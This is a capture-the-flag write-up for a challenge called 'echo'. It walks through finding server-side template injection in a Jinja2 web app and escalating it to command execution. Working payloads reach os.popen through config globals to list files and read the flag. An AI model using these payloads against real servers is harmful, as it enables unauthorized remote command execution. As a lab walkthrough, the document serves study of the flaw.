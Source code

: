# echo

> ### echo
>
> #### 909 `(23 Solves)`
>
> My website keeps repeating what I input. How can I make it stop.
>
> `nc c2.lagncrash.com 8001`

![](<../../.gitbook/assets/image (15) (1).png>)

The server does indeed echo back our input. This might mean there is a SSTI vulnerability as the server injects our input into the template before sending us back.

![](<../../.gitbook/assets/image (22).png>)

Using the above payload, the engine evaluated the payload as 7777777 and hence the template engine used is Jinja2 and that the server is vulnerable to SSTI.

```
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

The above payload results in an internal server error.

![](<../../.gitbook/assets/image (33).png>)

We were able to dump the configuration of the server. This also means we can abuse config to find the global symbol table and find further functions to abuse.

```
{{config.__class__.__init__.__globals__}}
```

> Python globals() function is **a built-in function used to update and return a dictionary of the current global symbol table**. The functions and variables that are not associated with any class or function are stored globally. It is mostly used for debugging purposes to see what objects the global scope actually contains

We dump all the available functions and found that the os module is loaded.

![](<../../.gitbook/assets/image (34) (1).png>)

```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

We then call os.popen to execute arbitrary commands, in this case finding the files in current directory.

![](<../../.gitbook/assets/image (40).png>)

```
{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}
```

![](<../../.gitbook/assets/image (16).png>)

